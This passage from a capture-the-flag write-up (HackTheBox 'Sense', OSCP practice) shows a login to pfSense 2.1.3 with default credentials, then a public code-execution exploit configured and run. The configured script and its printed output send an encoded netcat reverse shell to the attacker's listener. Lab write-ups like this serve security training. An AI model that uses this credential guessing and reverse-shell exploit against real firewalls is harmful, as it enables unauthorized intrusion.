 Now I know that the application has an open vulnerability. I also know a username, rohit, and that the password for this user is the company defaults. The company is called pfsense, so that may be the password.

![Untitled](/assets/images/2021-11-17-sense/Untitle3.png)

That worked, now I can search for an exploit. The version can be found on the main page: `2.1.3`

# Exploitation

---

If found an exploit from [spencerdodd](https://spencerdodd.github.io/2018/01/14/pfsense-arbitrary-code-execution/) that creates a reverse shell, it is available here:

[GitHub - spencerdodd/pfsense-code-exec: authenticated arbitrary code execution exploit in pfsense community edition <= 2.2.6](https://github.com/spencerdodd/pfsense-code-exec)

I have to note that I will use the PHP reverse shell payload, there is also a Metasploit version available. (Because for OSCP I practice w/o Metasploit) Download the file and edit these things:

```python
username = "rohit"
password = "pfsense"
listener_ip = "10.10.17.28"
listener_port = "4444"
target_ip = "10.10.10.60"
```

Now, start a netcat listener and execute the script:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sense]
└─$ nano pfsense_exec.py 

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sense]
└─$ chmod +x pfsense_exec.py 

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sense]
└─$ python3 pfsense_exec.py nc           
[*] setting payload to nc reverse shell (catch with 'nc -lvp PORT')
[*] exploiting pfsense_graph_injection_exec
[*] generating obfuscated/encoded reverse shell payload for 10.10.17.28:4444
        [+] generated obfuscated/encoded payload
[+] authenticating to firewall with (rohit:pfsense)
        [+] grabbed CSRF token: sid:0472d865e642eaf8e1a35873acdde486db446d18,1629552345
        [+] authentication successful!
        [+] grabbed CSRF token: sid:ceb361329e5284adddcd8bf90eca9a3fe0c93c4f,1629552346
[*] octal encoding payload
        [+] encoding complete

[*] injecting into https://10.10.10.60/status_rrd_graph_img.php
        [+] exploit code injected successfully
[*] triggering the exploit (make sure to catch on 10.10.17.28:4444)
```
